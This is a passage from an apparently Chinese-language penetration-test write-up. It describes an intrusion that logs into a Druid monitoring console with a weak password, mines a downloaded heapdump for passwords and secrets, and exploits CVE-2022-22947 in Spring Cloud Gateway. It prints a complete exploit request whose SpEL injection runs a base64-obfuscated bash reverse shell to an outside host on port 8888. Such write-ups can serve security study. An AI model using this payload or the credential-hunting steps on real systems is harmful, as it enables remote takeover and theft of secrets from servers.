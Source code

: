 ****## 0x02 突破口：Druid监控与Heapdump分析  
  
扫描发现存在Druid，尝试弱口令登录Druid后台成功（企业常见配置失误）。在SQL监控页面发现内网数据库地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHJS2DMAM6RfxV4BkicxuwDtZeQwsWBibsHlYOfkjB5vJ4MhKuMIfHpYTg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHpRI4nCzrvGVF4499HibrtC8us5WbTHxb2FNPxN6zyMqqF9icaSrKHrKQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHJLySfBAjwpW6hQlL37CdARIfeAEPic2icSeTibNBicU4UfBMhxicVwqMWrw/640?wx_fmt=png&from=appmsg "")  
  
更关键的是，heapdump文件可直接下载。使用**Eclipse Memory Analyzer**  
解析：  
1. 搜索关键词：password、secret、redis  
  
1. 定位springframework.cloud.gateway.route.RouteDefinition对象  
  
1. 发现内网配置：  
  
###   
## 0x03 致命一击：Spring Cloud Gateway RCE（CVE-2022-22947）  
  
网关的/actuator/gateway/routes端点暴露且无鉴权  
  
![1751335145_686340e92bbded8fb0d06.png!small?1751335146111](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHxnmUjDjqb9FxyLJFKDP8ur9rFWbHfBGIFexE1Wtk7ypZhKS6ghINVg/640?wx_fmt=jpeg&from=appmsg "")  
  
符合CVE-2022-22947漏洞条件：  
- **影响版本**  
：Spring Cloud Gateway < 3.1.1 或 < 3.0.7  
  
- **利用原理**  
：恶意SpEL表达式注入路由过滤器  
  
**攻击步骤**  
：  

```
POST /actuator/gateway/routes/shell HTTP/1.1  Host: xx.xx.xx.xx Content-Type: application/json
{
&#34;filters&#34;: [{
&#34;name&#34;: &#34;AddResponseHeader&#34;,
&#34;args&#34;: {
&#34;name&#34;: &#34;Result&#34;,
&#34;value&#34;: &#34;#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\&#34;bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUuMTUvODg4OCAwPiYx}|{base64,-d}|{bash,-i}\&#34;).getInputStream()))}&#34;
}
}],
&#34;uri&#34;: &#34;http://example.com&#34;
}
```

  
实战如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWnhibficl8TfsicnmWibZI9PxHLJJ1Bqne6RpVpibvaNA17x7Fg2gxoJLgib7grTgBkfqxKTpDibbXrNic0w/640?wx_fmt=png&from=appmsg "")  
  
